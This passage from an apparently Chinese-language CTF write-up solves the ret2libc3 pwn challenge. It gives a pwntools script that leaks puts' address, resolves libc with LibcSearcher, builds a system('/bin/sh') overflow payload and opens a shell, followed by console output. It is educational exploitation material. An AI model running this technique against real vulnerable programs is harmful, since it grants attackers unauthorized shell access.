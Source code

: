 	puts_addr=u32(r.recv()[0:4])#交互泄露puts的地址

	#r.sendline('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab')\#用来计算第二次的覆盖位置

	libc = LibcSearcher('puts', puts_addr)#通过泄露的puts的地址可以拿到libc的版本

	puts_libc=libc.dump('puts')#puts在libc中的地址

	base_addr=puts_addr-puts_libc#基地址

	system_addr=base_addr+libc.dump('system')

	binsh_addr=base_addr+libc.dump('str_bin_sh')

	payload=flat(['A' *104,system_addr,'aaaa',binsh_addr])\#注意第二次运行main函数的时候覆盖的位置不同，可以cyclic再计算一遍，'aaaa'就是用来填充位置的。

	r.sendlineafter('Can you find it !?', payload)

	r.interactive()

直接运行不知道为什么会卡在这里，但用gdb调试就可以拿到shell

	~/Desktop$ python t.py

	[*] '/home/katrina/Desktop/ret2libc3'

	Arch: i386-32-little

	RELRO: Partial RELRO

	Stack: No canary found

	NX: NX enabled

	PIE: No PIE (0x8048000)

	[+] Starting local process './ret2libc3': pid 26084

	[+]
	http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_i386.deb
	(id libc6_2.27-3ubuntu1_i386) be choosed.
![image](https://github.com/tearorca/tearorca.github.io/blob/master/_posts/QQ%E6%88%AA%E5%9B%BE20190119153102.png)
